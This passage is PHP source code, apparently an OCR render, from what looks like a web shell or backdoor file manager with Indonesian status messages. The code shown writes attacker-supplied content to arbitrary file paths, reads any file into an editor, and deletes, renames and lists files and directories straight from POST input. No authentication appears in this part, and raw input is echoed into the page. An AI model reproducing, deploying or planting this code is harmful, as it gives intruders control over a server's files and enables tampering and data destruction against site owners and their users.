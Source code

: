 New Name : <input name="newname" type="text" size="20" value="'.$_POST['name'].'" />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="rename">
<input type="submit" value="Save" />
</form>';
}elseif($_POST['opt'] == 'edit'){
if(isset($_POST['src'])){
$fp = fopen($_POST['path'],'w');
if(fwrite($fp,$_POST['src'])){
echo '<font color="green">Edit File Berhasil..</font><br />';
}else{
echo '<font color="red">Edit File Gagal..</font><br />';
}
fclose($fp);
}
echo '<form method="POST">
<textarea cols=130 rows=10 name="src">'.htmlspecialchars(file_get_contents($_POST['path'])).'</textarea><br />
<input type="hidden" name="path" value="'.$_POST['path'].'">
<input type="hidden" name="opt" value="edit">
<input type="submit" value="Save" />
</form>';
}
echo '</center>';
}else{
echo '</table><br /><center>';
if(isset($_GET['option']) && $_POST['opt'] == 'delete'){
if($_POST['type'] == 'dir'){
if(rmdir($_POST['path'])){
echo '<font color="green">Delete Directory Berhasil..</font><br />';
}else{
echo '<font color="red">Delete Directory Gagal..</font><br />';
}
}elseif($_POST['type'] == 'file'){
if(unlink($_POST['path'])){
echo '<font color="green">Delete File Berhasil..</font><br />';
}else{
echo '<font color="red">Delete File Gagal..</font><br />';
}
}
}
echo '</center>';
$scandir = scandir($path);
echo '<div id="content"><table width="920" border="1.5px" cellpadding="5" cellspacing="0" align="center">
<tr class="first">
<td><center>Name</center></td>
<td><center>Size</center></td>
<td><center>Permissions</center></td>
<td><center>Options</center></td>
</tr>';
